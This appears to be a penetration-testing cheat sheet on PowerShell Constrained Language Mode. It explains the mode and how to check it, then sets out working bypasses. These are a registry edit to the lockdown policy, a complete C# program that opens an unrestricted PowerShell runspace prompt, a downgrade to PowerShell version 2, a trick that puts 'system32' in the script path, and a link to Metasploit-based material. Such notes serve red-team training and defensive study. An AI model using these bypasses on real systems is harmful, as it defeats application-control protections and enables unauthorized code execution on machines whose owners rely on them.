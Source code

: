 # CLM

<details>

<summary>What is it? + How to enable?</summary>

* Constrained Language Mode is a PowerShell security restriction enforced by Windows Defender Application Control (WDAC) or Device Guard.&#x20;
* It limits access to certain commands and features, reducing the risk of malicious script execution.

- Run the following command on admin powershell.exe:

```powershell
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

</details>

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](<../.gitbook/assets/image (10) (1).png>)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using Powershell Downgrade</summary>

```bash
powershell.exe -version 2
```

* Powershell v2 is disabled by default on Win10/11 OS

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using System32</summary>

* From [https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass](https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass)
* Path from where your script is being executed needs to contain the string `system32`

```
PS>cat .\test.ps1
$ExecutionContext.SessionState.LanguageMode

PS>.\test.ps1; mv .\test.ps1 system32.ps1; .\system32.ps1
ConstrainedLanguage
FullLanguage
```



</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

</details>
